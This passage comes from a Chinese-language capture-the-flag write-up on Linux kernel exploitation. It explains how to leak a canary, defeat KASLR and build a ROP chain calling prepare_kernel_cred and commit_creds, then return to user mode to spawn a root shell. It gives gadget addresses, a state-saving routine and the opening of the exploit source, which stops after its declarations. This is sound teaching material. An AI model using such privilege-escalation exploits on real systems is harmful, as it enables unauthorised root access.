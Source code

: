 至此，基本的步骤已经明确：
Step 1: 使用core_read函数获取canary
Step 2: 使用core_write函数写入ROP到name
Step 3: 使用core_copy_func函数在栈上追加ROP

由于本内核模块启用了KASLR地址随机化保护机制，因此需要与计算出一个偏移量，题目中给出的vmlinux的commit_creds函数地址为FFFFFFFF8109C8E0（无地址随机化），相减即得偏移量。

为了让内核函数执行完成后能够顺利返回用户态，需要在用户态保存一些寄存器的值。这里引用开头参考资料的代码，这个函数应该首先被执行：（[链接](https://arttnba3.cn/2021/03/03/NOTE-0X03-LINUX-KERNEL-PWN-PART-II/#%E7%8A%B6%E6%80%81%E4%BF%9D%E5%AD%98)）

```c
size_t user_cs, user_ss, user_rflags, user_sp;
void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}
```

下面只需要解决一个问题：如何构造内核空间的ROP链。

首先我们需要执行prepare_kernel_cred函数，传入rdi=0即可，返回值保存在rax之中。因此要想将rax传入到commit_creds函数中，我们还需要先将rax的值赋值给rdi。vmlinux为我们提供了充足的gadget，很容易就能够找到这些gadget的地址，将其记录在我们的exp中：

```c
const unsigned long long swapgs_popfq_ret = 0xffffffff81a012da;
const unsigned long long movrdirax_callrdx = 0xffffffff8101aa6a;
const unsigned long long poprdx_ret = 0xffffffff810a0f49;
const unsigned long long poprdi_ret = 0xffffffff81000b2f;
const unsigned long long poprcx_ret = 0xffffffff81021e53;
const unsigned long long iretq = 0xFFFFFFFF81A00987;
```

这里没有找到mov rdi, rax; ret的gadget，因此使用call来代替，不过需要注意的是，call指令执行后，会将该指令下一条指令入栈。如果我们在call之后没有进行pop操作，则ret时执行的就不是我们想要的栈上的地址了。因此这里加上了一个pop rcx; ret的gadget，目的是将call指令入栈的地址pop出来以保证ret后继续执行ROP链后面的部分。

当``commit_creds(prepare_kernel_cred(NULL))``执行完毕时，我们还需要引导内核正确地退出到用户态，因此需要在后面加上swapgs和iretq指令，其中iretq指令后面需要依次跟上：返回地址、cs、rflags、sp、ss，后面的4个是我们在程序一开始就保存好的，直接接上即可，返回地址则填写执行``system("/bin/sh")``的地址。这样，从内核态返回后，我们就能够提升进程的权限了。

下面即为最终的exp，在exp中笔者加入了打印地址片段二进制值的函数``print_binary(char* buf, int length)``，便于查看指定地址的值。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/ioctl.h>

unsigned long long commit_creds = 0, prepare_kernel_cred = 0;	// address of to key function
const unsigned long long commit_creds_base = 0xFFFFFFFF8109C8E0;

const unsigned long long swapgs_popfq_ret = 0xffffffff81a012da;
const unsigned long long movrdirax_callrdx = 0xffffffff8101aa6a;
const unsigned long long poprdx_ret = 0xffffffff810a0f49;
const unsigned long long poprdi_ret = 0xffffffff81000b2f;
const unsigned long long poprcx_ret = 0xffffffff81021e53;
const unsigned long long iretq = 0xFFFFFFFF81A00987;

int fd = 0;	// file pointer of process 'core'
```